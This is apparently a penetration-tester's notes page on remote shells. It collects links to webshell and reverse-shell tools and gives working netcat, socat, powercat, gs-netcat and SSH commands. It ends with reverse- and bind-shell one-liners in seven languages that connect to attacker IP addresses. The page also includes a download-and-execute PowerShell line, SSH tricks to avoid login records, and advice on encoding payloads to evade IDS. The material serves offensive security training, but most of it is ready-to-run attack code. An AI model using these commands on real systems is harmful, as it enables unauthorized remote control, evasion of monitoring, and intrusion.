 # Shells

## Shell Guides and Resources

{% tabs %}
{% tab title="Shell Cheatsheets" %}
* [PayloadsAllTheThings/ReverseShellCheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Pentest monkey Rshell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)&#x20;
* [CTF Notes Reverse shell cheatsheet](https://github.com/Shiva108/CTF-notes/blob/master/rvshell\_cheatsheet.html)&#x20;
* [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
{% endtab %}

{% tab title="Spawning a TTY Shell" %}
### [Spawning a TTY Shell](https://netsec.ws/?p=337)
{% endtab %}

{% tab title="Upgrading a Shell" %}
### **Upgrading a shell**

****[**https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/**](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)****

**Reverse shell Upgrade to Fully interactive - Linux**&#x20;

* Method 1&#x20;
  * Simply add 2&>1 to the end of the command&#x20;
* Method 2&#x20;
  * (Victim) # python -c "import pty; pty.spawn('/bin/bash')"&#x20;
  * (Victim # export TERM=xterm&#x20;
  * (Victim) -Now Ctrl + z to background your reverse shell&#x20;
  * (Attacker) # stty raw -echo; fg&#x20;
  * (Victim) # reset&#x20;
  * _\*_If looks wonky&#x20;
    * (Attacker) # stty size&#x20;
    * (Victim) # stty -rows \[#] -columns \[#]&#x20;
* Method 3&#x20;
  * \#sudo apt install rlwrap&#x20;
  * \# rlwrap nc -lvnp&#x20;
  * \# stty raw -echo; fg&#x20;
* Method 4&#x20;
  * Use Socat
* [https://netsec.ws/?p=337](https://netsec.ws/?p=337)
* [https://xapax.github.io/security/#post\_exploitation/spawning\_shells/](https://xapax.github.io/security/#post\_exploitation/spawning\_shells/)
* [https://pentestmonkey.net/blog/post-exploitation-without-a-tty](https://pentestmonkey.net/blog/post-exploitation-without-a-tty)
{% endtab %}
{% endtabs %}

## **Shells**

<details>

<summary>Shell Collections</summary>

* Impacket remote execution scripts
  * [psexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/psexec.py) PSEXEC like functionality example using [RemComSvc](https://github.com/kavika13/RemCom)&#x20;
  * [smbexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/smbexec.py) A similar approach to PSEXEC w/o using RemComSvc. The technique is described [here](https://web.archive.org/web/20140625065218/http://blog.accuvant.com/rdavisaccuvant/owning-computers-without-shell-access/). Our implementation goes one step further, instantiating a local smbserver to receive the output of the commands. This is useful in the situation where the target machine does NOT have a writeable share available.
  * [atexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/atexec.py) This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
  * [wmiexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/wmiexec.py) A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.
  * [dcomexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/dcomexec.py) A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. Currently supports MMC20.Application, ShellWindows and ShellBrowserWindow objects.
* [BlackArch Web Shells](https://github.com/BlackArch/webshells) - Shell collection included in the BlackArch Linux Distrobution
* [Python PTY shells](https://github.com/infodox/python-pty-shells) - Collection of full PTY shells in python
* [AlphaSecLabs Webshell collection](https://github.com/alphaSeclab/awesome-webshell/blob/master/Readme\_en.md)
* [https://xapax.github.io/security/#tools/webshell/](https://xapax.github.io/security/#tools/webshell/)
* _Operator Handbook: Reverse Shells - pg. 267_

</details>

<details>

<summary>Misc Shells and Tools</summary>

* [dbd](https://www.kali.org/tools/dbd/) - dbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. dbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features.
* [sbd](https://www.kali.org/tools/sbd/) - sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only.
* [Reverse Shell and Post Exploitation tool](https://github.com/panagiks/RSPET) - RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.
* [Reverse Shell Generator](https://github.com/mthbernardes/rsg) - Cheater tool to generate reverse shell one liners
* [ShellPop](https://github.com/0x00-0x00/shellpop) - With this tool you can generate easy and sophisticated reverse or bind shell commands to help you during penetration tests.
* [SQL webshell](https://github.com/NetSPI/cmdsql) - Webshell that can run command line actions on the target as well as interact with an MSSQL database on the target.
  * [https://www.netspi.com/blog/technical/network-penetration-testing/adding-powershell-to-web-shells-to-get-database-access/](https://www.netspi.com/blog/technical/network-penetration-testing/adding-powershell-to-web-shells-to-get-database-access/)
* [Shellerator](https://github.com/ShutdownRepo/shellerator) - Simple CLI tool for the generation of bind and reverse shells in multiple languages
* [donut](https://github.com/TheWover/donut) - Generates x86, x64, or AMD64+x86 position-independent shellcode that loads .NET Assemblies, PE files, and other Windows payloads from memory and runs them with parameters
  * [golang-github-binject-go-donut](https://www.kali.org/tools/golang-github-binject-go-donut/) - This package contains the Donut Injector ported to pure Go.
* [ibombshell](https://www.kali.org/tools/ibombshell/) - This package contains a tool written in Powershell that allows you to have a prompt at any time with post-exploitation functionalities (and in some cases exploitation).
  * [https://github.com/Telefonica/ibombshell](https://github.com/Telefonica/ibombshell)
* [Weevly webshell ](https://github.com/epinna/weevely3)- Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.
  * [https://www.youtube.com/watch?v=Ig-HS6kxz4Q](https://www.youtube.com/watch?v=Ig-HS6kxz4Q)
* [PyShell](https://github.com/JoelGMSec/PyShell) - Multiplatform Python WebShell. This tool helps you to obtain a shell-like interface on a web server to be remotely accessed. Unlike other webshells, the main goal of the tool is to use as little code as possible on the server side, regardless of the language used or the operating system of the server.
  * [https://www.kitploit.com/2022/03/pyshell-multiplatform-python-webshell.html?m=1](https://www.kitploit.com/2022/03/pyshell-multiplatform-python-webshell.html?m=1)

</details>

<details>

<summary>SSH</summary>

* Basic Use: #ssh \[user]@\[host]&#x20;
* Use a specific key and port: #ssh -i \~/.ssh/id\_rsa -p \[port] \[user]@\[host]&#x20;
* SOCKS proxy: ssh -D8080 \[user]@\[host]&#x20;
* Execute a one line command : ssh -i \~/.ssh/id\_rsa \[user]@\[host] “_command string_”&#x20;
* Local Port Forward: ssh -L \[bindaddr]:\[port]:\[dsthost]:\[dstport] \[user]@\[host]&#x20;
* Remote Port Forward:ssh -R \[bindaddr]:\[port]:\[localhost]:\[localport] \[user]@\[host]&#x20;
* SSH tunnel through T1 to T2:ssh \[user]@\[T1 IP] -L \[Local LPORT]:\[T2 IP]:\[T2 LPORT] -R \[Local LPORT 2]:\[Local IP]:\[T1 LPORT]&#x20;
*   **Almost invisible SSH**

    ```
    ssh -o UserKnownHostsFile=/dev/null -T user@server.org "bash -i"
    ```

    This will not add your user to the _/var/log/utmp_ file and you won't show up in _w_ or _who_ command of logged in users. It will bypass .profile and .bash\_profile as well. On your client side it will stop logging the host name to _\~/.ssh/known\_hosts_.
*   **SSH tunnel OUT**

    We use this all the time to circumvent local firewalls and IP filtering:

    ```
    ssh -g -L31337:1.2.3.4:80 user@server.org
    ```

    You or anyone else can now connect to your computer on port 31337 and get tunneled to 1.2.3.4 port 80 and appear with the source IP of 'server.org'. An alternative and without the need for a server is to use [gs-netcat](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet#bdra-anchor).
*   &#x20;**SSH tunnel IN**

    We use this to give access to a friend to an internal machine that is not on the public Internet:

    ```
    ssh -o ExitOnForwardFailure=yes -g -R31338:192.168.0.5:80 user@server.org
    ```

    Anyone connecting to server.org:31338 will get tunneled to 192.168.0.5 on port 80 via your computer. An alternative and without the need for a server is to use [gs-netcat](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet#bdra-anchor).
*   **SSH socks4/5 OUT**

    OpenSSH 7.6 adds socks support for dynamic forwarding. Example: Tunnel all your browser traffic through your server.

    ```
    ssh -D 1080 user@server.org
    ```

    Now configure your browser to use SOCKS with 127.0.0.1:1080. All your traffic is now tunneled through _server.org_ and will appear with the source IP of _server.org_. An alternative and without the need for a server is to use [gs-netcat](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet#bdra-anchor).
*   **SSH socks4/5 IN**

    This is the reverse of the above example. It give others access to your _local_ network or let others use your computer as a tunnel end-point.

    ```
    ssh -g -R 1080 user@server.org
    ```

    The others configuring server.org:1080 as their SOCKS4/5 proxy. They can now connect to _any_ computer on _any port_ that your computer has access to. This includes access to computers behind your firewall that are on your local network. An alternative and without the need for a server is to use [gs-netcat](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet#bdra-anchor).

</details>

<details>

<summary><a href="http://netcat.sourceforge.net/">Netcat - The original shell tool.</a></summary>

* Reference
  * [SANS netcat cheatsheet](https://www.sans.org/security-resources/sec560/netcat\_cheat\_sheet\_v1.pdf)
  * [Netcat: All you need to know](https://blog.ikuamike.io/posts/2021/netcat/)
* Set Listener&#x20;
  * \# nc -nlvp \[port]
* Connect to port&#x20;
  * \# nc -nv \[ip] \[port]&#x20;
* Push a file over netcat&#x20;
  * \#nc -nv \[ip] \[port] < /full/path/to/file.exe&#x20;
* Catch a pushed file and write it to new file&#x20;
  * \#nc -nvlp \[port] > incoming.exe&#x20;
* Launch command upon connection&#x20;
  * \#nc -nlvp \[port] -e cmd.exe&#x20;
* **\***UPGRADE Non interactive shell_**\*\***_&#x20;
  * &#x20;Check python version in /usr/bin&#x20;
  * \# python2.6 -c "import pty; pty.spawn('/bin/bash')"&#x20;
* Reverse shell
  * TARGET # nc \[ip] \[port] -e /bin/bash&#x20;
  * ATTACKER # nc -n -vv -l -p \[port]&#x20;
* Netcat with GAPING \_SECURITY\_HOLE\_disabled&#x20;
  * When you dont have access to the -e option (execute command after connect), backpipe commands from file system from netcat back into bin/bash&#x20;
  * TARGET # mknod backpipe p && nc \[ip] \[port] 0\<backpipe | /bin/bash 1>backpipe&#x20;
  * ATTACKER # nc -n -vv -l -p \[port]&#x20;
* Netcat without netcat (/dev/tcp)&#x20;
  * TARGET # /bin/bash -i > /dev/tcp/\[IP]/\[port] 0<&1 2>&1&#x20;
  * ATTACKER # nc -n -vv -l -p \[port] • netcat without netcat or /dev/tcp&#x20;
  * TARGET # mknod backpipe p && telnet \[ip] \[port] 0\<backpipe | /bin/bash 1>backpipe&#x20;
  * ATTACKER # nc -n -vv -l -p \[port]&#x20;
* Linux listener bind shell, executes bin bash on connection&#x20;
  * \#mkfifo /tmp/f; nc -lvnp  < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
* _Operator Handbook: Netcat - pg. 209_

</details>

{% embed url="https://youtu.be/KlzSBk7VMss" %}

<details>

<summary><a href="http://manpages.org/socat">Socat - The upgraded and encryptable Netcat</a></summary>

### ****[**Socat**](http://manpages.org/socat) **-** The upgraded and encryptable Netcat

* [https://github.com/3ndG4me/socat](https://github.com/3ndG4me/socat) - Socat standalone binary collection
* Socat - establishes two bidirectional btye streams and transfers data between them&#x20;
* Bind shell - Linux connect to IP and Port
  * \# socat TCP:\[ip]:\[port] EXEC: “bash -li”,pty,stderr,sigint,setsid,sane&#x20;
* Bind shell - Windows connect to IP and Port
  * \# socat TCP:\[ip]:\[port] EXEC:powershell.exe,pipes&#x20;
* Sets listener on port
  * \# socat TCP-L:\[port]&#x20;
* Sets listener with stable shell
  * \# socat TCP-L:\[port] FILE:`tty`,raw,echo=0
* Shares file on port&#x20;
  * \# socat TCP-L:\[port],fork file:\[file name]&#x20;
* Encrypted shell&#x20;
  * Uses open ssl to create a self signed cert and encrypt
  * \# openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt&#x20;
  * \# cat shell.key shell.crt > shell.pem&#x20;
  * Reverse shell
    * \#sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,FILE:`tty`,raw,echo=0    &#x20;
  * Reverse listener
    * \#sudo socat OPENSSL:\[ip]:\[port], verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane                    &#x20;
  * Bind shell
    * \#socat OPENSSL-LISTEN:,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes      - Target
    * \#socat OPENSSL::,verify=0 -                                                                                -Attacker
* [https://www.hackingarticles.in/socat-for-pentester/](https://www.hackingarticles.in/socat-for-pentester/)

</details>

<details>

<summary><a href="https://github.com/besimorhino/powercat">Powercat - Netcat: The powershell version. </a></summary>

### [**Powercat**](https://github.com/besimorhino/powercat) **** - Netcat: The powershell version. (Powershell Version 2 and Later Supported)

* Powershell enableing&#x20;
  * When presented with a User Account Control prompt, select Yes and enter Set-ExecutionPolicy Unrestricted:&#x20;
* Script we can download to a windows host to leverage Powershell and simplify shells&#x20;
* Install on linux &#x20;
  * \#apt install powercat&#x20;
  * places in /usr/share/windows-resources/powercat&#x20;
* Set up&#x20;
  * With the script on the target host, we start by using a PowerShell feature known as Dot-sourcing to load the powercat.ps1 script. This will make all variables and functions declared in the script available in the current PowerShell scope. In this way, we can use the powercat function directly in PowerShell instead of executing the script each time.&#x20;
    * \>. .\powercat.ps1&#x20;
  * If the target machine is connected to the internet we can do the same with a remote script by once again using the handy iex cmdlet&#x20;
    * \> iex (New-Object System.Net.Webclient).DownloadString('[https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)')&#x20;
* Powercat file transfers&#x20;
  * Set up a listener on Attackers Kali instance&#x20;
    * \# sudo nc -lnvp 443 > receiving\_powercat.ps1&#x20;
  * Invoke power cat on sending windows machine&#x20;
    * \> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1&#x20;
    * \-c specifies client mode and sets listening address&#x20;
    * \-p is the destination port
    * &#x20;\-i indicates the local file that will be transferred remotely&#x20;
* Reverse shells&#x20;
  * \> powercat -c \[dest ip] -p \[dest port] -e cmd.exe&#x20;
* Bind shells - listener&#x20;
  * \> powercat -l -p \[listener port] -e cmd.exe&#x20;
* Stand Alone Payloads&#x20;
  * Saving the powercat functionality and given commands as a script&#x20;
  * \> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1&#x20;
  * \> ./reverseshell.ps1&#x20;
  * **Warning: these scripts are rather large and have hard coded strings that will set off IDS\***&#x20;
    * Powershell can execute Base64 encoded commands&#x20;
    * We can use the -ge option when redirecting to an output file.&#x20;
    * \> powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1&#x20;
    * Due to the way powershell works, you cannot execute the new script as is but you must run its contents&#x20;
    * \> powershell.exe -E \[encoded command string]
* [https://www.hackingarticles.in/powercat-for-pentester/](https://www.hackingarticles.in/powercat-for-pentester/)

</details>

### [pwncat](https://www.kali.org/tools/pwncat/)&#x20;

This package contains Netcat on steroids with Firewall, IDS/IPS evasion, bind and reverse shell, self-injecting shell and port forwarding magic - and its fully scriptable with Python (PSE).

### [gsocket](https://github.com/hackerschoice/gsocket)

Connect like there is no firewall. Securely. The Global Socket Tookit allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely. More on [https://www.gsocket.io](https://www.gsocket.io).

<details>

<summary>gsocket resources</summary>

The Global Socket Toolkit comes with a set of tools:

* **gsocket** - Makes an existing program (behind firewall or NAT) accessible from anywhere in the world. It does so by analyzing the program and replacing the IP-Layer with its own Gsocket-Layer. A client connection to a hostname ending in _'\*.gsocket'_ then gets automatically redirected (via the GSRN) to this program.
* **gs-netcat** - Netcat on steroids. Turn gs-netcat into an AES-256 encrypted reverse backdoor via TOR (optional) with a true PTY/interactive command shell (`gs-netcat -s MySecret -i`), integrated file-transfer, spawn a Socks4/4a/5 proxy or forward TCP connections or give somebody temporary shell access.
* **gs-sftp** - sftp server & client between two firewalled workstations (`gs-sftp -s MySecret`)
* **gs-mount** - Access and mount a remote file system (`gs-mount -s MySecret ~/mnt/warez`)
* **blitz** - Copy data from workstation to workstation (`blitz -s MySecret /usr/share/*`)
* ...many more examples and tools.
* **Reverse shell with gs-netcat**

Use [gs-netcat](https://github.com/hackerschoice/gsocket). It spawns a fully functioning PTY reverse shell and using the Global Socket Relay network. It uses 'password hashes' instead of IP addresses to connect. This means that you do not need to run your own Command & Control server for the backdoor to connect back to. If netcat is a swiss army knife than gs-netcat is a german battle axe :>

```
gs-netcat -s MySecret -l -i    # Host
```

Use -D to start the reverse shell in the background (daemon) and with a watchdog to auto-restart if killed.

To connect to the shell from your workstation:

```
gs-netcat -s MySecret -i
```

Use -T to tunnel trough TOR.

</details>

#### Shell One-Liners

<details>

<summary>Shell One-Liners</summary>

* Bash&#x20;
  * bash -i >& /dev/tcp/10.0.0.1/8080 0>&1&#x20;

<!---->

* Netcat with out -e flag&#x20;
  * \#rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f&#x20;

<!---->

* Netcat&#x20;
  * \#nc -e /bin/sh 10.10.10.10 4443&#x20;

<!---->

* Netcat windows&#x20;
  * \#nc -e cmd.exe 10.10.10.10 4443&#x20;

<!---->

* Perl&#x20;
  * perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">\&S");open(STDOUT,">\&S");open(STDERR,">\&S");exec("/bin/sh -i");};'&#x20;

<!---->

* Python&#x20;
  * python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'&#x20;

<!---->

* PHP&#x20;
  * php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'&#x20;

<!---->

* Ruby&#x20;
  * ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to\_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'&#x20;

<!---->

* Java&#x20;
  * r = Runtime.getRuntime()&#x20;
  * p = r.exec(\["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String\[])&#x20;
  * p.waitFor()&#x20;

<!---->

* Powershell - reverse shell&#x20;
  * \>powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\[text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"&#x20;

<!---->

* Powershell Bind shell&#x20;
  * \>powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\[text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"

</details>
